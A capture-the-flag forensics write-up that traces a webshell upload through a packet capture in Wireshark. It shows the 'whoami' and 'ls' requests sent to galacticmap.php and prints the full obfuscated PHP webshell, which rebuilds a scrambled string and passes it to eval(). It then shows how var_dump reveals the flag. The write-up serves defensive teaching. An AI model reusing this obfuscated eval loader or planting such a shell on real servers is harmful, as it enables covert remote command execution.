## Forensics - Roten

__Challenge description:__

*The iMoS is responsible for collecting and analyzing targeting data across various galaxies. The data is collected through their webserver, which is accessible to authorized personnel only. However, the iMoS suspects that their webserver has been compromised, and they are unable to locate the source of the breach. They suspect that some kind of shell has been uploaded, but they are unable to find it. The iMoS have provided you with some network data to analyse, its up to you to save us.*

</br>
</br>

We were given a pcap file `challenge.pcap`.
I opened it with `wireshark` and analyzed it.

After some searching I found a `GET` request in the capture where a `whoami` system command was passed to a php file named `galacticmap.php`.

![Screenshot0](./screenshots/0.png)

Using "Follow->HTTP Stream" I could also see that the file returned results for an `ls` command from the get parameter.
This must be the webshell!

I searched further and filtered the traffic only for POST requests.

`http.request.method == "POST"`

![Screenshot1](./screenshots/1.png)

In package number `1929` we find the point where the webshell was uploaded.
On the right we can also see some PHP code of the webshell already.

Right click on the frame and `Follow->HTTP Stream` and we can have a better look at the uploaded PHP code.

![Screenshot2](./screenshots/2.png)

We don't get very clever from the obfuscated PHP code.
I copied it first and saved it in an extra file.

```php
<?php 
$pPziZoJiMpcu = 82; 
$liGBOKxsOGMz = array(); 
$iyzQ5h8qf6 = "" ; 
$iyzQ5h8qf6 .= "<nnyo ea\$px-aloerl0=e r\$0' weme Su rgsr s\"eu>\"e'Er= elmi)y ]_'t>bde e e  =p   xt\" ?ltps vdfic-xetrmsx'l0em0  o\"oc&'t [r\"e _e;eV.ncxm'vToil   ,F y"; 
$iyzQ5h8qf6 .= "<r s -<a  \"op r_P< poeeihaeild /ds\"se4bsxao1: r]du ;e\$'o,t dn\n)i\$'me'maoate{e  I!lb>'u btde .sr ege/ han:t"; 
$iyzQ5h8qf6 .= "elrlenjl t>( 0'eCdd0  l et0\n'seu u it ;e_ dc>ulUd'T\nxe\$L<er<.l oh>c  ii aert pdt iai(ed.QiJr\n\$i0; 0\"e0' d= ex ].xp\$r re \nwSn'u<lup ]o iluE/=>b\$t r>\n"; 
$iyzQ5h8qf6 .= "h rxn ltmb \n'-aodd') bubaa\nff0 i0] )- [ &\"4 ==e[wn (r #iEa tftelF)U sspSb\"'rd  dO o e_t ppso \n]DpneaC;aoesvp\ni( }f0 & ' \"( ]0 =sc'o  \$s #nRmaeoi=oi)p te"; 
$iyzQ5h8qf6 .= "l[>c;>ia ew   agP aw(d i;ep:rto\nnor/a/<l )\n( = ?;\$r\$0 0 'puwr\$\$d\" fgVeu'rp'al l s o'<o\n<rs rn \" leeetu\$y f\nsl (en dtyjS3?e\$   ) 0 \ngem0=  xrtrlsdi; l E=t>ma\"d"; 
$iyzQ5h8qf6 .= "e{o  iafbl\nb. }ee < ptrchid>   cia''t  s qc.p)m{ \$ (0' rao0 ) 'ieid;ir\n adR'o\\ r.''\na ifdiro >'\$\ndr<t apmh(di\" ( rctE)"; 
$iyzQ5h8qf6 .= "e mtlur3h;o  m{\$2x odd0(  )n't[\nr)  gi[dcnat\$   d n Dl>r R k}\"<tr twso\$(r; i iatx;n iriei.p\nd\$ o m0' u\"e1\$\$ "; 
$iyzQ5h8qf6 .= " t]e'} ) } r'io\"c/_in '  (ie': e&e\n>/b> hu( df)\n s ptap\nt nabrp6\n et d\$o0  p] )ogi?f)'r\n=  \n=ePrm;tfGda"; 
$iyzQ5h8qf6 .= " ]e\"mrT;r s&ye\nto\" (i\$\"ii e s tici - ipryt/\n  y etd): [ & wrf (;]e\n {   cH'p\nioE=m [c.oeo\ne u  c hd; \$dd<rl.c e iohr L fca/ jf &p  ye   "; 
$iyzQ5h8qf6 .= "\"= ?no('\"\n,a\n\$\n  HtP leorT'e 'h\$vcU d l'=h >y\n d(it.e h t onme e idr1-su  e &p ?' e 0 eu t%  d\$_   To_vecnm[f= nouetp \" t."; 
$iyzQ5h8qf6 .= ">o \n> eifrd'o\"o ( n/es n eny.-/n 0=e e& - x(0'rp\$'1 \$'dP   BrSath=-'i' a p_ol >  \$    \n cri)>/w<  \$i:on: g "; 
$iyzQ5h8qf6 .= "d. 1>bc x'l0= ''\$e\$0x[[m s g]iO   {yEleo'ddls m\"luro E}o_\$\"< < h.l <'n/\" _f ct  t  c-2\not 2dsx'0w;gcm0''\"o:% r,rS   W Lu= \"aieu\$e<opya r\nfG"; 
$iyzQ5h8qf6 .= "v<t ? o'e.a.et< G Ft;0 h Co-.<oi 0'eAs0'\nruo2 eed 1 o  T   0\"Fe'\".trTbu'bal)d r\n Eabh p  /o  \$rd/ E(ie ' :eSm>2stoi0; 0'4  otd):xxe's u\$=[ "; 
$iyzQ5h8qf6 .= "  w '=o<\$a'omp]rdo)' o}cTlre h \"'w\"hv(>t Tfltf)  xS/\n/csnf0 i0;0: uee  ee T% pw '  \$_.]\"f/_']Uil)>Da ] r\no[u>a p <.n<ra\$\\a [ie-i; 'i b<jrt ( }f0 0  "; 
$iyzQ5h8qf6 .= "p\" ?'cc&'1 [o\$d  dR ..ffS>.pto;<id{[} \nm'e\"d \n t\$e/eldnb 'l sl\n  t-osqirp )\n( })' []& -uu ;s\$'r_ii iO\$\"\$'oE"; 
$iyzQ5h8qf6 .= "\\\"l'a\nbre\n' uimc);> fidvrtfui\"l deTte  .;-ocupar\$   )\n - \"  ''tt0\n\"selGrf rtd'd rRn'o>d red nepfam \n\n<o"; 
$iyzQ5h8qf6 .= "f>a(d=er;e o_rrn h \n>tretpim{ \$  ?' w=0w;eex ,.xdE'   _i iamV\"/a\"D >c_ all nd{? tr <l\$>').\n> weaea ef \nsir .no  "; 
$iyzQ5h8qf6 .= "m{  ; r 0'\n'\"2  =e[T](\$=Armru>E;>d;i <tf mso(d'\n> he(aud\\\" ' \" nxnam ai <tpysmtd\$ o  '\n i(0  ]]0 \$sc'[;if _ e.t\"R\n '\nr boi eeai ] \n >ai ein../ ; lisme "; 
$iyzQ5h8qf6 .= "dl lrt.riPet d\$ r \$t\$0: = 0 opuw'\nsi'D.t\"o;[e\">ee  rl ' dse, \n Pcsh)r\"  ' \n osf'= ee ia mcne y et ' gem4  ==  wrtrd}_l.a h f\n'c;\\cc sye ]{isx  <"; 
$iyzQ5h8qf6 .= " eh_r .;\$\". \n ate)\" rs npsi=.r&p  y   r\"o)' ' ) nieii\nfe/Y\"o/oePh\nnht t.( .\nnee\$ t r de.'\n_'\$ \n dsr;' (i k/rn\"jm e &p : o]d - x(  en'tr\$i '}<d>ccHoe<o"; 
$iyzQ5h8qf6 .= "o y\"\$ ' gtcc a<m(if / S>v ? '('\n. 'z  3c.hss0=e e   u e?' '\$\$ rt]e'fl=;\n/=\"uhP cb ril._    (um bti\$r=\"' E\"a > ]\$) b Pe r.=jt\"(x'l0=e' p=  ; )gw\$[f)']ie \n\$h"; 
$iyzQ5h8qf6 .= "';so_\"hr\"yfe<F u f\$td lrsd('/. R.l \n )f; a r(}e3\"st>\$1csx'l- [ &'\n  ros'(;];l(\$}d2G\n> S<o><  =/I p i_ir e>sir\"'\$ V u}\n )i\n s a\$\nl.h\"p<f0'e8l"; 
$iyzQ5h8qf6 .= "s' \"( r i?or=r\"\n,\ne\$d\ni>Ee\\\"Ei </=('bL l lGoe  \nire.>v E\$e\n\n  l  ehgf}=6t>:/i0; 0'e;\$r\$0' f ulse%  i di\$r\"Tcn\\Ln\"id fc>E o eEns c osa \"a Rv) \n {e"; 
$iyzQ5h8qf6 .= "  nemi\n\"/t</sl0 i0; \noem0  ('pdpa1 \$f=irds;'h<nFp<ni\$io<S a  T:u l n l\$.l [a) < \n)  aaal\nscp//ce }f0 \$ wao0:  s[[rds w  r;i \n>o"; 
$iyzQ5h8qf6 .= "i<'uipvdll/[ d '[ l a sap_ u 'l[ /  )  md:e?tsssmr))\n( }t ndd1  \$''\"i'% o(')\nr=e\" nb]tnu>ieob' e .'<t s <saS\$e}Pu"; 
$iyzQ5h8qf6 .= "n d     ee )>ys:cai    )\ny e\"e0' m een]1 ri')   c;\"pr. pt\"r_rrfed \$c/) s / tEv)\nHea i  {  (rp)\nl//rxp{{ \$  p r] )- o:xxt,s ls;  =sh\n<u>\"tu"; 
$iyzQ5h8qf6 .= " ;.e:>ic  umb; = t\$hRa) P m v  \n  \$(u;\neb/ict\n  m{ e [ & ' d eef % ds\n{  coeit\\'ytt\n'xr<lhs pd>\n \" hk(Vl[ _.e >     f'b\n<soapd> \$ o  = \"="; 
$iyzQ5h8qf6 .= " ?;\$e'cc(\$1 [ei\n ra cn n p y\n/ie/eou l'< et >e\$Eun S ] \n     iCl hhojtn\n t d\$ ' e 0 \nw Suu\"os\$'tf  en\"hpt<metpi'sdbT c o]b ca"; 
$iyzQ5h8qf6 .= "<\nydRea E\" e<    hlai teta>.\n y et u x(0' o&'tt%w\"se(   ad\\ouyde=yef.t'ro'c a)r hbt  i[ m L<.c/    eecc mesx\nb< p  y '\$e\$0x r ;ee1n,.x\$(  lin tpit'p"; 
$iyzQ5h8qf6 .= "= bs>>U<e d)> olh =r'.e F/\"hh \$  a)h' ltt.\nod e &p ;ocm2' l0\n'\"se =e_\$  pr<\" evhhe'(a(E\"pbseD \"  e> >.P ] 'a<ot f hd.e) >\"r"; 
$iyzQ5h8qf6 .= "g<oi =e e \nwuo0  dx ]]\"r\$scPd  a(b<t= oi=sis\$r;lrsci{; \" N  'H\"  ]>/ m i ee'-; \n ao!tv 'l0=e ntd): [8 = ,[gpuOi  t\$riy'cdd'useur\no>fhr\n\n \$ta \$/P<.e <t\""; 
$iyzQ5h8qf6 .= "l l ar\"C\n <hpo-s  psx'l eee   \"0 == 'rrtSr  hd>npsl=dfbsnpo a<uoe   vam v'_/ l./d<> e d('o  !r.g-tc\$'e6-s r\" ?' e0 ' \$woieT   (i<peua'eime"; 
$iyzQ5h8qf6 .= "alr dbl c  fabe<a.Sa\"s t>/    e')n  -eml rlm; 0'e []& - x  x(trun'[=  \$rfu=bsPnlitmo. 'rl't  oll</l\$E><e\"d<t  = rC;t  -fieLaao i0;  \"  ''\$e) "; 
$iyzQ5h8qf6 .= "'\$yipt]'=  d)ot'msO'et(ea  ]>y<o  rue/tuvL</ ?>tr    (o\nr   =naapsd}f0 i w=0w;wc  )wpt[f)d   i;r ti=S ''\$(dF [< br  ee-treaF/t{d<d>  \$h"; 
$iyzQ5h8qf6 .= "'n o  L\".ptcse\n( }f r 0'\nou\$  oee'(;iN  r\nmtet'Tn  _\$Di 'biry  a hh>)l'td\not>\"  _eCt l rahcied=   )\n( i(0  rtoi?r)'r\"\nrU e.e yx'n'anvP_il t>n>.  c"; 
$iyzQ5h8qf6 .= "\\o>\n u]d> wd ;  Gaoe : ettsssn\"= \$   \$t\$4: lewf l;]e% 'L c'capt a maaOFre mF <'  hnv\n {e >< n>\"\n  Ednn   aets.t.c  m{ \$oem0  d\"n('d\n,a1 ]L h/hce'vveemlS"; 
$iyzQ5h8qf6 .= "Ie }pi'b<ee <e  \n).<t l\" }  Tett m dsp\"c cof o  mw\"o)' []e s[  ds )  o'ot= abn=euTLca\n_l.r/cx(br   ) td o..\n  [re- u ft:>oconi d\$ on]d - "; 
$iyzQ5h8qf6 .= "\" r\$'' \$'% )oe . i'nlac'=e[Etl ne\$>bhe\$r    )\"d> a  e  '(nD s i /\nmomtl et de e?' w=[m e o]1  rc\$\$\"ohaurtd'='Sor a d<>occ>t <  ?>  dppc  d"; 
$iyzQ5h8qf6 .= "'ti t lc/\n/m/ae  y er=  ; r \"o:x w,s { hfv<nime-yif's[re m'ib< (m\"a / {d\"\" =orh  oC-s -heom<apbip &p  [ &'\n i(ed e n % \n!oiah=de=fpriUu'ya e.r b\"'d;b t"; 
$iyzQ5h8qf6 .= " \ni.  \"sio  woTp re(ma!jionee e &\"( r \$t\$xe'c e\$1  i ll2'd='oe'lpbf)d '\$.sr<cr\nl h  r . .in   "; 
for($i = 0; $i < $pPziZoJiMpcu; $i++) $liGBOKxsOGMz[] = ""; 
for($i = 0; $i < (strlen($iyzQ5h8qf6) / $pPziZoJiMpcu); $i++) { for($r = 0; $r < $pPziZoJiMpcu; $r++) $liGBOKxsOGMz[$r] .= $iyzQ5h8qf6[$r + $i * $pPziZoJiMpcu]; } 
$bhrTeZXazQ = trim(implode("", $liGBOKxsOGMz)); 
$bhrTeZXazQ = "?>$bhrTeZXazQ"; 
eval( $bhrTeZXazQ ); 
?>
```

That is a lot of chaos...

I started searching wildly on the internet for PHP deobfuscation tools which was unnecessary.
If we look at the PHP code we see at the end the `eval( $bhrTeZXazQ );` function with a passed value.

I wanted to see what exactly the `eval()` function was doing.
So I commented out the eval function, took the variable `$bhrTeZXazQ` and used the function `var_dump()` to show me the content.

```php
...

var_dump($bhrTeZXazQ)
//eval( $bhrTeZXazQ ); 
?>
```

I ran the PHP code and got to see the deobfuscated code in which the flag was hiding.

Flag: `HTB{W0w_ROt_A_DaY}`
